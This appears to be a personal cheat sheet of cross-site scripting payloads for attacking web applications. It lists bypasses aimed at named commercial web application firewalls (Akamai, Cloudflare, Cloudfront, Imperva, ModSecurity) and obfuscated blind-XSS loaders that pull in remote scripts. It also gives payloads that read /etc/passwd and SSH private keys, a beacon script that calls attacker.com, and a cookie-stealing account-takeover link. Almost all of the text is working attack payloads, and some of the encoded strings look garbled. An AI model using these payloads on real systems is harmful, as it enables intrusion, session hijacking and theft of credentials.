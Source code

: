 	
`<button onClick=”alert(document.cookie)”>Submit</button>

	Here's a small #XSS list for manual testing (main cases, high success rate).  
  
`"><img src onerror=alert(1)>  
`"autofocus onfocus=alert(1)//  
`</script><script>alert(1)</script>  
'-alert(1)-'  
`\'-alert(1)//  
`javascript:alert(1)  
  
Try it on:  
- URL query, fragment & path;  
- all input fields.  
  
A nice way to store the payload  
  
`"><script>eval(new URL(document.location.href+"#javascript:confirm(69)").hash.slice(1))</script>  
  
`A payload to bypass Akamai WAF  
   
`<A href="javascrip%09t&colon;eval.apply`${[jj.className+`(23)`]}`" id=jj class=alert>Click Here  
  
Another one  
  
`"><img/src/style=html:url("data:,"><svg/onload=confirm(69)>")>  
  
`BlindXSS-Payloads: #Max Payload 5-7  
  
  `- '"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3Jgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vamVycnkuYnhzm9keS5hcHBlbmRDaGlsZChhKTs=&#61 onerror=eval(atob([this.id](https://this.id "https://this.id/")))>'  
  
  `- "'><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS57ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs=&#61 onerror=eval(atob([this.id](https://this.id "https://this.id/")))>"
`xss to lfi payload -  
  
`1) <script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};[x.open](https://x.open "https://x.open/")(‘GET’,’file:///etc/hosts’);x.send();</script>  
   
`2) <script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};[x.open](https://x.open "https://x.open/")(‘GET’,’file:///etc/passwd’);x.send();</script>  
  
`3) get ssh private key - <script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};[x.open](https://x.open "https://x.open/")("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>  
  
Pining the server down  
  
<!--Make the bot send a ping every 500ms to check how long does the bot wait-->  
`<script>  
    let time = 500;  
    setInterval(()=>{  
        let img = document.createElement("img");  
        img.src = `https://attacker.com/ping?time=${time}ms`;  
        time += 500;  
    }, 500);  
`</script>  
`<img src="[https://attacker.com/delay](https://attacker.com/delay "https://attacker.com/delay")">`

SOME OF THE TOP XSS WAF BYPASS PAYLOADS :)  
  
Akamai WAf:  
';k='e'%0Atop['al'+k+'rt'](A-MY-NOTES/js/1.md)//  
`'"><A HRef=\" AutoFocus OnFocus=top/**/?.['ale'%2B'rt'](A-MY-NOTES/js/1.md)>  
  
CloudFlare WAf:  
<svg/onload=window["al"+"ert"]`1337`>  
`<Img Src=OnXSS OnError=confirm(1337)>  `
`<Svg Only=1 OnLoad=confirm(document.domain)>  
`<svg onload=alert&#0000000040document.cookie)>  
<sVG/oNLY%3d1/**/On+ONloaD%3dco\u006efirm%26%23x28%3b%26%23x29%3b>  
%3CSVG/oNlY=1%20ONlOAD=confirm(document.domain)%3E  
`<Img Src=//[X55.is](https://x55.is/ "https://x55.is/") OnLoad%0C=import(Src)>  
`<Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=="))>  
  
Cloudfront Waf:  
">'><details/open/ontoggle=confirm('XSS')>  
6'%22()%26%25%22%3E%3Csvg/onload=prompt(1)%3E/  
';window/*aabb*/['al'%2b'ert'](document./*aabb*/location);//  
`">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(cloudfrontbypass)//'>  
  
Mod security:  
`<svg onload='new Function`["Y000!"].find(al\u0065rt)`'>  
  
Imperva Waf:  
`<Img Src=//[X55.is](https://x55.is/ "https://x55.is/") OnLoad%0C=import(Src)>  
`<sVg OnPointerEnter="location=javas+cript:ale+rt%2+81%2+9;//</div">  
`<details x=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:2 open ontoggle=&#x0000000000061;  
lert&#x000000028;origin&#x000029;>  
                                                                          ~/.lostsec@coffin

If CSP policies blocked you while trying XSS, be sure to try two separate XSS payloads (encoded) one after another, this may help you bypass the file.  
1-  
%3C/script%20%3E  
2- mitsecXSS%22%3E%3Cinput%20%00%20onControl%20hello%20oninput=confirm(1)%20x%3E


Cloudflare provides robust security measures to protect websites from various attacks, including Cross-Site Scripting (XSS). However, attackers may still find ways to bypass these protections. Here are 10 examples of XSS payloads that could potentially bypass Cloudflare's XSS protection:  
  
1. Unicode encoding:  

html

```
<scr&#x9Cipt>alert(1)</scr&#x9Cipt>
```

2. Using HTML entities:  

<img src=x onerror=&#x61lert&#x28&#x27123&#x27&#x29>

3. Using JavaScript URL encoding:  

html

```
<script src=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x68&#x74&#x74&#x70&#x3A&#x2F&#x2F&#x77&#x77&#x77&#x2E&#x61&#x6C&#x65&#x72&#x74&#x2E&#x63&#x6F&#x6D&#x2F&#x73&#x63&#x72&#x69&#x70&#x74&#x27&#x29>
```

4. Using JavaScript encoding:  

html

```
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
```

5. Using CSS expressions:  

html

```
<style>@import'\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003A\u0061\u006C\u0065\u0072\u0074\u0028\u0027\u0068\u0074\u0074\u0070\u003A\u002F\u002F\u0077\u0077\u0077\u002E\u0061\u006C\u0065\u0072\u0074\u002E\u0063\u006F\u006D\u002F\u0073\u0063\u0072\u0069\u0070\u0074\u0027\u0029';</style>
```

6. Using JavaScript comments:  

html

```
<script>/*-/**/alert(1)/*-/*-->/*</script>
```

7. Using event handlers:  

html

```
<body onload=alert(1)>
```

8. Using JavaScript encoding with comments:  

html

```
<script>eval(String.fromCharCode(/*-*/97/*-*/,/*-*/108/*-*/,/*-*/101/*-*/,/*-*/114/*-*/,/*-*/116/*-*/,/*-*/40/*-*/,/*-*/49/*-*/,/*-*/41/*-*/))</script>
```

9. Using JavaScript encoding with whitespace:  

html

```
<script>eval(String.fromCharCode( 97, 108, 101, 114, 116, 40, 49, 41 ))</script>
```

10. Using JavaScript encoding with different encoding schemes:  

html

```
<script>eval(String.fromCharCode(0x61,0x6C,0x65,0x72,0x74,0x28,0x31,0x29))</script>
```

Example of 1Click ATO by Openredirect to xss with filter bypass  
javascript://%0aalert(document.cookie)
